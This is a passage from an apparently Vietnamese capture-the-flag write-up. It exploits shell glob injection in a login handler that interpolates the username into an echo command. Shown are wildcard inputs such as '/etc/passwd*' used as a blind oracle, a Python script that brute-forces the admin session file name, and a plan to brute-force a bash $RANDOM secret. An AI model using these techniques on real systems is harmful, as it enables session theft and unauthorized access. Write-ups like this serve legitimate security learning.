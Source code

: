 Cụ thể thì là khi mình nhập vào username thì nó sẽ parse vào ```await $`echo ${username} failed to log in >> /tmp/auth.log`;``` Vậy nếu giả sử mình truyển vào tên file và một asterisk thì như thế nào giả sử như /etc/passwd*

Thì nó sẽ tìm các file có dạng /etc/passwd ở đầu tên và yeah chắc chắn tồn tại file đó trên mọi máy linux 
![image](https://hackmd.io/_uploads/SJWGhPeBke.png)

Nhưng nếu mình truyền vào một file không tồn tại thì sao như là /etc/passwd1    
![image](https://hackmd.io/_uploads/BJwKnwxr1l.png)

Thì nó sẽ báo lỗi shell do không tìm thấy được file nào có dạng như vậy, từ đó mình có ý tưởng sẽ brute force kiểu kiểu giống như blind sqli để tìm ra file session của admin
    
Từ đó mình có đoạn script sau để leak file session của admin : 

```python
import requests

a="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_"
s=""
for i in range(100):
    f=0
    for j in a:
        data = 'username=/tmp/sessions/'+s+j+'*&password=123'
        print(s+j)
        r = requests.post('http://127.0.0.1:8000/login', headers={
            'Content-Type': 'application/x-www-form-urlencoded'
        }, data=data)
        if ("Error" not in r.text):
            s+=j
            f=1
            continue
    if f ==0 : break

print("Found : ", s)
```
    
![image](https://hackmd.io/_uploads/BkTGn_lBJl.png)

* Ok thì mình đã có một file session của admin bây giờ chỉ cần tìm secret là có được session vào trong web, và mình nhận ra SECRET sử dụng một biến $RANDOM của bash

```sh
export SECRET=$RANDOM
```
    
Mình có đọc doc của biến này thì chỉ chứa giá trị từ 0 đến 32767 là khoảng hợp lý để ta có thể brute force.
    
![image](https://hackmd.io/_uploads/S1dG-OeSJg.png)

Nhưng brute bằng cách nào ?
    
Thì mình thấy web có thể tận dụng express session có sẵn khi ta vào web
    